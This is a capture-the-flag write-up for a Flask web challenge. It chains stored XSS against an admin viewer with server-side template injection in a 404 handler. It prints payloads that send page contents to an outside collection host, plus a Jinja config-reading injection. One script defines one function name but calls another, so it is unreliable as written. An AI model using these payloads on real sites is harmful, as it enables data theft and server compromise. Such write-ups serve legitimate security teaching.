

## SBBS (Web, 250p)
	tl;dr use xss to get a 404 error page and then use template injection to get the flag

We're given the source code of a sever that uses flask. The flag is hardcoded into the source but it's not used anywhere, so we either have to steal the source files or somehow extract it from the program.

The site itself allows us to write posts, which are then viewed by the admin. XSS almost immediately comes to mind

A quick check: (You can grab the source code of /catch [here](https://gist.github.com/nazywam/5d164f1969491e2067f17b3c61329040))

```javascript
<script type="text/javascript">
window.open ('http://nazywam.xyz/catch?','_self',false)
</script>
```

Confirms it:



It's worth noticing, that this ip matches the ip of the service, so the admin can access the server locally.

However, we're not able to get the files using that, same-origin-policy prevents us from making a request for the same domain but using a different protocol like "file://"

It turns out, that the responses to error messages are vulnerable to a [template injection](http://blog.portswigger.net/2015/08/server-side-template-injection.html)

```python
@app.errorhandler(404)
def not_found(e=None):
    message = "%s was not found on the server." % request.url
    template_string = template % message
    return render_template_string(template_string, title=title_404), 404
```

We have almost complete control over request.url and can inject a template, like `{{ variable }}`

The problem is, `http://52.78.86.97:8080/somepagethatdoesntexist` returns nginx error pages instead of flask ones.

As it later turned out, flask used his error pages only for specified addresses, including 127.0.0.1 ;)

No problem! We use our xss to get the page as localhost:

```javascript
<script>
function hack(url, callback){
    var xmlhttp = new XMLHttpRequest();
    xmlhttp.onreadystatechange = function(){
        if (xmlhttp.readyState == 4){
			window.open ('http://nazywam.xyz/catch?'+xmlhttp.responseText,'_self',false)
        }
    }
    xmlhttp.open("GET", url, true);
    xmlhttp.send();
}

callAjax("/{{ FLAG }}")
 
</script>
```


Unfortunately, we can't acces FLAG directly but only [template globals](http://junxiandoc.readthedocs.io/en/latest/docs/python_flask/flask_template.html#global-variables-within-templates) and they don't have references to app class. 

The breakthrough was finding the function `config.from_object("admin.app")`, with it, we can finally access the app and then the flag.

Because `config.from_object()` only updates `config`, we have to print the flag separatly, so the final payload is:

`{{ config.from_object('admin.app') }} {{ config.FLAG }}`


###Congratz, to the author(s), that was a great chall! If only we got it 4 minutes earlier ;) ###
